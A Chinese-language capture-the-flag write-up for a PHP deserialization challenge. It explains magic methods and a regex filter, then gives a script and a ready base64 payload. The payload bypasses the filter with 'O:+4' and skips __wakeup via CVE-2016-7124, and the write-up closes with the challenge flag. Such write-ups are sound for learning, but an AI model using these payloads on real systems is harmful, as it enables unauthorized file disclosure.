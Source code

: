 # Web_php_unserialize

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=a96b6abc-21b4-4814-afcd-8c32ddc1d631_2)

这道题我知道考点是php的反序列化，不巧的是我也仅停留在“知道”这个层面了，之前做过这样的题但是基本忘得差不多了。这次来回顾一下。

首先场景是一个php脚本。

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```

分析一下：这个脚本定义了一个Demo类，同时Demo类有三个魔术方法。

- ### PHP魔术方法
- > __construct():构造函数。具有构造函数的类会在每次创建新对象时先调用此方法，所以非常适合在使用对象之前做一些初始化工作。
- > __destruct():析构函数。析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。
- > __wakeup():unserialize() 会检查是否存在一个 __wakeup() 方法。如果存在，则会先调用 __wakeup 方法，预先准备对象需要的资源。

从官方文档里看见了我们想要东西：unserialize()。不过先继续往下看。

- > isset():检测变量是否已设置并且非NULL。
- > $_GET:收集来自 method="get" 的表单中的值。
- > preg_match():执行一个正则表达式匹配。
- > unserialize():所有php里面的值都可以使用函数serialize()来返回一个包含字节流的字符串来表示。unserialize()函数能够重新把字符串变回php原来的值。如果想要unserialize()一个对象，这个对象的类必须已经定义过。

看来有一个过滤，想要绕过过滤就要理解这个正则在干什么。

- ### /\[oc]:\d+:/i
- > /:表示文本正则表达式模式的开始和结尾。在第二个 “/”后添加单字符标志可以指定搜索行为。因此第一个/表示正则字符串开始，第二个表示使用i模式，进行忽略大小写的全局匹配。
- > \[]:标记括号表达式的开始和结尾。这里[oc]表示匹配o或c其中的一个。
- > \d:数字字符匹配，等效于[0-9]
- > +:一次或多次匹配前面的字符或子表达式。比如“go+”匹配go和gooo，但是不和g匹配。
- > 两个双引号就是原本的意思，匹配双引号。

这里我们先直接输出序列化实例的结果。

- O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}

你会发现O:4:匹配正则，会被过滤。这里可以用O:+4:来绕过匹配，这样输出的结果也是一样的。

但是这样还不够，因为__construct()先执行，__wakeup()后执行（创建实例在反序列化之前），所以我们还要让__wakeup()不执行。在CVE-2016-7124中可以看到，当成员属性数目大于实际数目时，__wakeup()不会执行。那么那里表示的是成员呢？就是中间那个1。把那个1改成别的数字，比如2，就行了。

```php
<?php
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
$flag=new Demo("fl4g.php");
$s_flag=serialize($flag);
$s_flag=str_replace("O:4","O:+4",$s_flag);
$s_flag=str_replace(":1:",":2:",$s_flag);
echo base64_encode($s_flag);
?>
```

输出：
- TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==

那么就可以按照get的传参方式把这个payload传过去了。

- http://61.147.171.105:56832/index.php?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==

- ### Flag
- > ctf{b17bd4c7-34c9-4526-8fa8-a0794a197013}

